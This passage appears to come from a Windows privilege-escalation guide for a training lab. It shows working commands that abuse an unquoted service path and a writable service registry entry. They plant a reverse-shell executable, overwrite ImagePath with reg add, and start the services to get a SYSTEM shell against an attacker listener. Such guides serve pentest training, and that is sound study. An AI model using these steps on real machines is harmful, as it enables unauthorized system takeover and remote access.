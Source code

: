 Create `Common.exe` in the `"C:\Program Files\Unquoted Path Service\"` directory, which will get executed by the service when it starts.
```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on the attacker machine and then start the service to spawn a SYSTEM shell.
```powershell
net start unquotedsvc
```

### Weak Registry Permissions
The Windows Registry stores entries for each service, and if Registry entries have a misconfigured ACL, it may be possible to modify a service's configuration.

Check if it's possible to modify any service Registry using `winPEAS`.
```powershell
winPEASany.exe quiet servicesinfo

HKLM\system\currentcontrolset\services\regsvc
```

Check if the user can start/stop the service.
```powershell
accesschk.exe /accepteula -ucqv user regsvc
```

Check the current values in the service Registry entry.
```powershell
reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc

    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    ObjectName    REG_SZ    LocalSystem
```

Check that the Registry entry for the service is writable. (use accesschk or powershell)
```powershell
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
PS > Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

Overwrite the ImagePath Registry key to point to a reverse shell payload.
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Start a listener on the attacker machine and then start the service to spawn a SYSTEM shell.
```powershell
net start regsvc
```

### Insecure Service Executables
If an original service executable is modifiable by the user, it can simply be replaced with a file that has the same name. Always create a backup of the original executable and restore it when finished in a real system.
